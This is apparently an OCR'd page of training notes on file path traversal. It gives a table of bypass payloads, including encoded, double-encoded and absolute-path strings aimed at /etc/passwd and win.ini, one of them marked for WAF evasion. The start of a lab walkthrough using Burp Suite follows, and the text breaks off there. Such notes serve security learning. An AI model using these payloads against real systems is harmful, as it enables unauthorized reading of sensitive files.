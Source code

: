 ## **Bypass Techniques:**

* ## **Chunked traversal:** ..%2f..%2f..%2fetc%2fpasswd 

* ## **Case-insensitive decoders:** ..%2F..%2Fetc%2FPASSWD 

* ## **Recursive decoders:** ....// or %2e%2e%2f 

### **🧪 Field Tactics**

| Payload Type | Example | Use Case |
| ----- | ----- | ----- |
| Simple traversal | ../../../etc/passwd | Basic test |
| Encoded | %2e%2e%2f%2e%2e%2fetc%2fpasswd | Encoding bypass |
| Double encoded | %252e%252e%252fetc%252fpasswd | Double-decoding WAF evasion |
| Absolute path | /etc/passwd | Skip traversal sanitization |
| Windows | ..\\..\\..\\windows\\win.ini | NT/Windows target |

## 

## 

# **Lab: File path traversal, traversal sequences blocked with absolute path bypass**

## **🎯 Objective**

# This lab contains a path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file.         

## 

## **⚙️ Step-by-Step Walkthrough**

### **1\. 🧭 Launch the Lab**

* Click **"ACCESS THE LAB"** on the challenge page.  
* The storefront will open in a browser tab.

### **2\. 🧑‍💻 Open Burp Suite**

* Ensure **Intercept** is enabled in **Proxy**.  
* Set your browser to use Burp’s proxy.
